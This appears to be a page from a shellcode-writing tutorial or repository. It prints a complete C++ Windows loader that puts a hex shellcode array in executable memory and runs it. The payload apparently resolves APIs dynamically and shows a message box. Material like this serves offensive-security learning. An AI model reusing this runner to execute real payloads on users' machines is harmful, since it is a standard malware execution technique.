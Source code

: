 **And the c++ program itself:**

```c++
#include <windows.h>
#include <iostream>

// Shellcode (as given, formatted for clarity)
unsigned char shellcode[] =
"\x48\x83\xec\x28\x48\x83\xe4\xf0\x48\x31\xc9\x65\x48\x8b\x41\x60\x48\x8b\x40\x18\x48\x8b"
"\x70\x10\x48\x8b\x36\x48\x8b\x36\x48\x8b\x5e\x30\x49\x89\xd8\x8b\x5b\x3c\x4c\x01\xc3\x48"
"\x31\xc9\x66\x81\xc1\xff\x88\x48\xc1\xe9\x08\x8b\x14\x0b\x4c\x01\xc2\x44\x8b\x52\x14\x4d"
"\x31\xdb\x44\x8b\x5a\x20\x4d\x01\xc3\x4c\x89\xd1\x48\xb8\x64\x64\x72\x65\x73\x73\x90\x90"
"\x48\xc1\xe0\x10\x48\xc1\xe8\x10\x50\x48\xb8\x47\x65\x74\x50\x72\x6f\x63\x41\x50\x48\x89"
"\xe0\x67\xe3\x20\x31\xdb\x41\x8b\x1c\x8b\x4c\x01\xc3\x48\xff\xc9\x4c\x8b\x08\x4c\x39\x0b"
"\x75\xe9\x44\x8b\x48\x08\x44\x39\x4b\x08\x74\x03\x75\xdd\xcc\x51\x41\x5f\x49\xff\xc7\x4d"
"\x31\xdb\x44\x8b\x5a\x1c\x4d\x01\xc3\x43\x8b\x04\xbb\x4c\x01\xc0\x50\x41\x5f\x4d\x89\xfc"
"\x4c\x89\xc7\x4c\x89\xc1\xb8\x61\x72\x79\x41\x50\x48\xb8\x4c\x6f\x61\x64\x4c\x69\x62\x72"
"\x50\x48\x89\xe2\x48\x83\xec\x30\x41\xff\xd7\x48\x83\xc4\x30\x49\x89\xc7\x4d\x89\xe6\x48"
"\x89\xf9\xb8\x65\x73\x73\x90\xc1\xe0\x08\xc1\xe8\x08\x50\x48\xb8\x45\x78\x69\x74\x50\x72"
"\x6f\x63\x50\x48\x89\xe2\x48\x83\xec\x30\x41\xff\xd6\x48\x83\xc4\x30\x49\x89\xc6\xb8\x6c"
"\x6c\x90\x90\xc1\xe0\x10\xc1\xe8\x10\x50\x48\xb8\x75\x73\x65\x72\x33\x32\x2e\x64\x50\x48"
"\x89\xe1\x48\x83\xec\x30\x41\xff\xd7\x48\x89\xc7\x48\x89\xf9\xb8\x6f\x78\x41\x90\xc1\xe0"
"\x08\xc1\xe8\x08\x50\x48\xb8\x4d\x65\x73\x73\x61\x67\x65\x42\x50\x48\x89\xe2\x48\x83\xec"
"\x30\x41\xff\xd4\x49\x89\xc7\x48\x31\xc9\xb8\x6d\x90\x90\x90\xc1\xe0\x18\xc1\xe8\x18\x50"
"\x48\xb8\x67\x33\x74\x73\x79\x73\x74\x33\x50\x48\x89\xe2\x49\x89\xe0\x45\x31\xc9\x48\x83"
"\xec\x30\x41\xff\xd7\x48\x83\xc4\x30\x31\xc9\x41\xff\xd6";


int main() {
    // Allocate executable memory
    void* exec_mem = VirtualAlloc(0, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    if (exec_mem == nullptr) {
        std::cerr << "Memory allocation failed\n";
        return -1;
    }

    // Copy shellcode to the allocated memory
    memcpy(exec_mem, shellcode, sizeof(shellcode));

    // Create a function pointer to the shellcode
    auto shellcode_func = reinterpret_cast<void(*)()>(exec_mem);

    // Execute the shellcode
    shellcode_func();

    // Free the allocated memory
    VirtualFree(exec_mem, 0, MEM_RELEASE);

    return 0;
}
```

